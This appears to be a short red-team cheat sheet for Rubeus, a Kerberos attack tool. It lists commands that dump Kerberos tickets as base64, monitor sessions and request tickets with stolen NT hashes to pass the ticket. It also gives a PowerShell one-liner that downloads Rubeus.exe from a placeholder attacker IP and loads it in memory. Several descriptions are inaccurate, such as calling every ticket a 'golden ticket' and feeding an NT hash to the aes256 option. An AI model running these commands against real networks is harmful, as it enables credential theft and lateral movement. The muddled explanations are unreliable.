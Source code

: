 # Rubeus

## 01 - Basic Commands

List golden tickets that are being used.

`C:\> Rubeus.exe klist`

A much nicer way to see the golden tickets when using `triage` flag

`C:\> Rubeus.exe triage`

If the tickets exist dump them into base64 encoded

`C:\> Rubeus.exe dump /nowrap`

Monitors the number of golden ticket sessions for every 10 seconds this is useful as a keylogger vector

```
C:\> Rubeus.exe monitor /interval:10 /nowrap

C:\> Rubeus.exe asktgt /user:<username> /domain:<domain> /rc4:<nt_hash> /ptt

C:\> Rubeus.exe asktgt /user:<username> /domain:<domain> /aes256:<nt_hash> /createnetonly:C:\Windows\system32\cmd.exe /ptt
```

## 02 - Download and Execute

```powershell
PS C:\> $data = (New-Object Net.WebClient).DownloadString('http://<IP>/Rubeus.exe')
$assembly = [System.Reflection.Assembly]::Load($data)
[Rubeus.Program]::Main("purge".Split())
```